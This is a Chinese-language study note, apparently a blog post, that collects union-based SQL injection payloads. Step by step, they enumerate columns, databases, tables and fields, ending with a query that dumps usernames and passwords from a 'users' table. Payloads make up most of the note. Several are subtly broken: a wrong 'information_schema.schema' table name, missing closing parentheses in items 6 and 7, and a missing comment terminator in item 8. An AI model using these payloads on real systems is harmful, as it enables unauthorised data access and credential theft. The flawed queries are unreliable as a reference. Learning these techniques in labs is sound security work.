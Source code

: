 # 前言
这篇笔记的目的是整理各种 SQL 注入使用时的`payload`。

> 说明：以下的`payloads`都基于单引号字符型注入。若是整型注入则把单引号和注释符（–+）去掉，若是双引号注入则把单引号换成双引号。

也就是基于这样一种情况：
```
SELECT * FROM Student WHERE id = '1';
```
## Payload
1. 判断当前数据表中有几列：

```
?id=1' order by 数值 --+
```
2. 查看显示位在第几列：

```
?id=-1' union select 1,2,3 --+
```
> 注意：这里需要传递一个不存在的条件，比如：`id=-1`

3. 显示当前数据库（假设显示位中包含第三位）：

```
?id=-1' union select 1,2,database() --+
```

4. 查看当前数据库中的所有表：

```
?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) --+
```
> 函数`group_concat()`把所有结果都在一行输出

5. 查询所有数据库：

```
?id=-1' union select 1,2,(select group_concat(schema_name) from information_schema.schema) --+
```

6. 查询某个数据库中的表：

```
?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security' --+
```

7. 查询某个表中的所有字段：
```
?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+
```

8. 查询某个表中的字段内容
```
?id=-1' union select 1,2,(select group_concat(name, 0x3a, passwd) from security.users)
```
> 0x3a会被转义位冒号`：`

### Union
SQL UNION 操作符合并两个或多个 SELECT 语句的结果，需要注意的是：UNION 内部的每个 SELECT 语句必须拥有相同数量的列。

### 参考链接
[Web安全学习之数据库注入语句的收集和学习](https://ca0y1h.top/Web_security/basic_learning/5.%E6%95%B0%E6%8D%AE%E5%BA%93%E6%B3%A8%E5%85%A5%E8%AF%AD%E5%8F%A5%E7%9A%84%E6%94%B6%E9%9B%86%E5%92%8C%E5%AD%A6%E4%B9%A0/)